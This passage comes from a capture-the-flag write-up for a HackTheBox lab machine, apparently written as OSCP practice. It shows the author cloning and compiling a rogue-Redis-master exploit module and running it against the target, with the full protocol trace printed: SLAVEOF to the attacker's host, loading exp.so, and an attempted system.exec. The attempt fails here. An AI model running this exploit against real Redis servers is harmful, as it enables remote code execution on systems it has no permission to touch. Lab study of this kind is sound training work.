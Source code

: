 ## Redis RCE

---

I already know that the service is vulnerable, so I download the script and compile the module:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ git clone https://github.com/vulhub/redis-rogue-getshell.git
Cloning into 'redis-rogue-getshell'...
remote: Enumerating objects: 47, done.
remote: Total 47 (delta 0), reused 0 (delta 0), pack-reused 47
Receiving objects: 100% (47/47), 193.20 KiB | 1.61 MiB/s, done.
Resolving deltas: 100% (5/5), done.

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ cd redis-rogue-getshell

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman/redis-rogue-getshell]
└─$ cd RedisModulesSDK

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman/redis-rogue-getshell/RedisModulesSDK]
└─$ make
make -C ./exp
make[1]: Entering dir '/hackthebox/oscp-prep/postman/redis/RedisModulesSDK/exp'
make -C ../rmutil
---snip---
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman/redis-rogue-getshell/RedisModulesSDK]
└─$ ls
exp  exp.so  Makefile  redismodule.h  rmutil
```

You can ignore the warnings. I run the script:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman/redis-rogue-getshell]
└─$ python3 redis-master.py -r postman.htb -L 10.10.16.7 -f RedisModulesSDK/exp.so -c "id"
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$10\r\n10.10.16.7\r\n$5\r\n21000\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC 1167f8cffcaa06b13bbfd09cefabafcc69c9e91f 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b"-ERR unknown command 'MODULE'\r\n"
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b"-ERR unknown command 'system.exec'\r\n"
-ERR unknown command 'system.exec'

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b"-ERR unknown command 'MODULE'\r\n"
```
